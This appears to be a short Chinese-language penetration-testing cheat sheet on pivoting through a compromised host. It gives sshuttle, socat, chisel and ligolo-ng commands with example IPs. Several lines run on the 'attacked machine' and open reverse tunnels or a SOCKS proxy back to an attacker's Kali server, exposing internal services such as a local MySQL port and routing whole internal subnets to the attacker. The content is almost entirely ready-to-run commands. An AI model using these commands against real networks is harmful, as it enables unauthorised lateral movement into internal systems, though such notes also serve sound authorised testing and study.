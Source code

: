 适用于有目标ssh密码的情况，可以在主机上直接添加路由

```
https://github.com/sshuttle/sshuttle

sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```



## SOCAT 常用

```
socat TCP-LISTEN:8009,fork,reuseaddr tcp:10.4.187.215:22 & 

socat -ddd TCP-LISTEN:1194,fork TCP:51.79.169.191:1194

socat -ddd UDP-LISTEN:1194,fork TCP:51.79.169.191:1194

```



# chisel 工具 扫描速度很慢，如果是访问端口可以接受

http+ssh嵌套

```
https://github.com/jpillora/chisel

场景一，代理被攻击机的本地127.0.0.1:3306

kali当作服务端：
./chisel server -p 6666 --reverse

被攻击机：
./chisel client -v kali_ip:6666 R:0.0.0.0:8888:127.0.0.1:3306

socsk5
./chisel client -v 192.168.45.198:6666 R:5000:socks


```

# ligolo 工具 当前情况下的最好选择

```
https://github.com/sysdream/ligolo
https://github.com/nicocha30/ligolo-ng

kali配置网卡：
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up

服务端：
./proxy -selfcert

客户端：
agent.exe -connect 192.168.45.234:11601 -ignore-cert


服务端收到信息后配置：
session
tunnel_start

添加路由：
sudo ip route add 172.16.30.0/24 dev ligolo
```